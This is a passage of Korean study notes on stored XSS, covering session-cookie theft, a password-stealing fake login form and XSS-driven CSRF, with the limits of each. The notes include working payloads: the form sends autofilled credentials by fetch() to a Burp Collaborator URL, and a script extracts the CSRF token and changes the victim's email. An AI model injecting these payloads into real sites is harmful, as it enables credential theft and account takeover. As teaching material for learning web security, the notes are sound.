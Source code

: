 저게 입력이 되고 그대로 저장되면, 댓글을 본 누군가의 세션 쿠키가 POST 요청으로 내게 보내진다. 
요청에 담긴 쿠키로 내 웹사이트의 쿠키값을 편집하면 해당 계정의 세션을 탈취할 수 있다. 

**한계** 

유저가 로그인해서 쿠키를 가지고 있어야함. 
HttpOnly 쿠키옵션이 쓰이면, document.cookie를 이용못함. 
로그인하는 IP가 이상하면, 막는 경우도 있음. 

 

### 3.4.2. 비번 도둑

요즘엔 로그인폼을 자동완성해주는 브라우져가 많음. 

**방법**

그래서 내가 해당 사이트랑 똑같은 로그인 폼을 만들어서 웹사이트 어딘가에 넣어두면,
브라우져는 알아서 자동완성을 하게되고, 그대로 요청을 내 도메인을 받아서 볼 수 있게 함. 

burp collraborator의 URL을 카피해서 댓글에 아래 스크립트를 넣는다. 

```html
<input name=username id=username> 
<input type=password name=password onchange="if(this.value.length)fetch('https://<카피한 URL>',{ 
method:'POST', 
mode: 'no-cors', 
body:username.value+':'+this.value 
});"> 
```

이 댓글을 로드한 유저 중에 아이디, 비번 자동완성이 되는 유저들은 
POST req를 보내서 그걸 볼 수 있게 된다. 

 **한계**

자동완성을 안해주면 의미없음.

 

### 3.4.3. XSS를 이용한 CSRF

사이트에 스크립트를 넣어서, 다른 유저가 원치않은 요청을 보내게 함. 

**예시**

어떤 사이트들은 이메일바꾸는데 비번검증을 안함. 
그럼, 이메일을 내걸로 바꾸고, 비번 리셋요청보내게 할 수 있음. 
그럼 내 이메일로 리셋을 위한 URL이 오게됨. 

댓글에 아래와 같은 스크립트를 삽입 

```html
<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse; 
req.open('get','/email',true); 
req.send(); 
function handleResponse() { 
  var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
  var changeReq = new XMLHttpRequest(); 
  changeReq.open('post', '/email/change-email', true); 
  changeReq.send('csrf='+token+'&email=test@test.com') 
}; 
</script> 
```
